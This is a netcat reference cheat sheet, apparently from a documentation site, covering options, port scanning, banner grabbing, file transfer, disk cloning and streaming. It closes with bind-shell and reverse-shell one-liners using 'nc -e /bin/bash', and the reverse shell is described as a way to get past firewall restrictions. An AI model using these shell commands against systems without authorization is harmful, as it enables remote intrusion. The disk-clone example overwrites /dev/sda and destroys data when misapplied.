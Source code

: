 ```yaml
---
layout: default
title: nc
parent: Linux
---
```



# nc

nc is a network client and server program for Unix-like operating systems such as Linux, macOS, and Windows.

## Getting started

### Usage

Connect to a host located anywhere

`$ nc [options] [host] [port]`

Listen for incoming connections

```shell
$ nc -lp port [host] [port]
```

### Option examples

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _(for inbound connects)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server

Server (192.168.1.9) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000
```

## Examples

### Banner grabbing

`$ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1`

or
```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 `$ nc -zvn 192.168.1.1 21-25`

Scan ports 22, 3306 and 8080
```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

`$ nc -lp 8001 -c "nc 127.0.0.1 8000"`

or

```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9) `$ nc -lv 8000 &lt; file.txt`

Client
```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server (192.168.1.9) `$ nc -lv 8000 &gt; file.txt`

Client
```shell
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server (192.168.1.9) `$ tar -cvf – dir\_name \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer

Server (192.168.1.9) `$ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt`

Client
```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9) `$ dd if=/dev/sda \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9) `$ cat video.avi \| nc -l 8000`

Client
```shelll
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9) `$ nc -lv 8000 -e /bin/bash`

Client
```shell
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

